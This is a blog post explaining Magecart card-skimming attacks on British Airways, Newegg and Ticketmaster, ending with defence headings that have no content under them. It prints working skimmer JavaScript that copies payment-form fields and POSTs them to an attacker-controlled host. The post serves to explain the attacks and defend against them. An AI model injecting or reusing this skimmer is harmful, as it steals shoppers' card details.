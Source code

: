 ```yaml
---
title: Everything you need to know on Magecart Attacks
date: "2018-10-19T19:12:03.284Z"
---
```


In the last month a group of hackers called Magecart came back striking in full force.

They first came in the news back in 2015 when [RiskIQ](https://riskiq.com) found out they injected code in Magento's "Magecart" shopping software.

The attacks they architected have caused massive damages to companies like British Airways, Ticketmaster and even Newegg.

This group is specialised in card skimming payment forms on the internet.

## How?

![](./threat.png)

Their attacks are all based on injecting malicious javascript into websites.

The main attack vector are hacked CDNs and third party plugins on websites.

The js inserted in websites usually is pretty straightforward: on form submission, a POST request with all the sensitive information is sent to an external server that is set up to receive it.

![](./on-payment.png)

The code in the British Airways attack was the following:

![](./british-airways.png)

Here's a more readable version of it:
```javascript
    window.onload = function() {
        // Triggering the function when users submit payment details
        jQuery(".btn-success").bind ("mouseup touchend", function(t) {
            var e={};
            // Copying the data inside of the payment form
            jQuery("#payment-form").serializeArray().map(function(t){
                e[t.name] = t.value});
            // Creating a JSON with the credit card data    
            var n=JSON.stringify(e);
            setTimeout(function() {
                    jQuery.ajax({
                        // POST request to Magecart controlled server
                        type:"POST",
                        async:!0,
                        // Malicious Server controlled by Magecart
                        url:"https://malicious-service.com/carding-api/",
                        data:n,
                        dataType:"application/json"})},
                500)})};

```



## CDN Security

These attacks usually are aimed towards large corporations that are attacked, either **directly**, or in **indirect ways**.

An example of indirect attack that happened this September, when the group targeted [Shopper Approved](https://www.shopperapproved.com), an ecommerce plugin for customer rating.

In this case the attack targeted a static resource that was used by multiple websites.

Researchers at [RiskIQ](https://www.riskiq.com) found obfuscated javascript code included in the `certificate.js` file.

Original file 👇

![](sa-clean.png)

Malicious file 👇

![](sa-obfuscated.png)

In the Newegg attack, the criminals registered a domain called **neweggstats.com** and used it paired with a paid Comodo TLS certificate to give legitimacy to their page.

> I'm not sure why they would need to pay for a TLS certificate (and not use something like Let's Encrypt) as their website only appears on client side code and the data goes directly to them. So it shouldn't appear on any logs on the victims servers. 
*Contact me if you know!*

The card skimmer in this attack was placed directly inside the payment processing page.

The code used in this attack was the same as the one used in the British Airways attack adapted for the new victim's website.

A fourth attack targeted Ticketmaster through Inbenta, a third party tool that "Uses Artificial Intelligence and NLP to increase customer happiness and your company's bottomline".

This service is integrated through custom subdomains for every client they have.

These were the Ticketmaster subdomains:
```markdown
ticketmasterat.inbenta.com
ticketmasterau.inbenta.com
ticketmasterbe.inbenta.com
ticketmasterde.inbenta.com
ticketmasterdk.inbenta.com
ticketmasterfi.inbenta.com
ticketmasterfr.inbenta.com
ticketmasterie.inbenta.com
ticketmasternl.inbenta.com
ticketmasterno.inbenta.com
ticketmasternz.inbenta.com
ticketmasterpl.inbenta.com
ticketmasterse-avatar.inbenta.com
ticketmasterse.inbenta.com
ticketmastertr.inbenta.com
ticketmasteruk.inbenta.com
ticketmasterus.inbenta.com
```

Inside the Ticketmaster js resources there's a function that inserts an external script from Inbenta.

![](inbenta.png)

And right there you could find the malicious code by Magecart above the original script:

![](malicious-inbenta.png)

The attackers initially (on June 12th) even deleted the original code by Inbenta and only included their code.

![](inbenta-deleted.png)

The Ticketmaster websites around the world were also breached via another third party plugin called SOCIAPlus an "E-commerce Big & Social analysis service".

These breaches are only the tip of the Iceberg.

Magecart is now targeting the backbones of the internet.

Sometimes they even have the audacity of blackmailing website admins, like in this case:

![](magecart-blackmail.png)

## Neutralising Attacks

Now that we've understood how the group organises its attacks let's figure out and evaluate strategies to tackle them.

### Subresource Integrity

### Crawling

### Detecting Code Obfuscation

### Avoiding external CDNs

### Hashing Values and checking diffs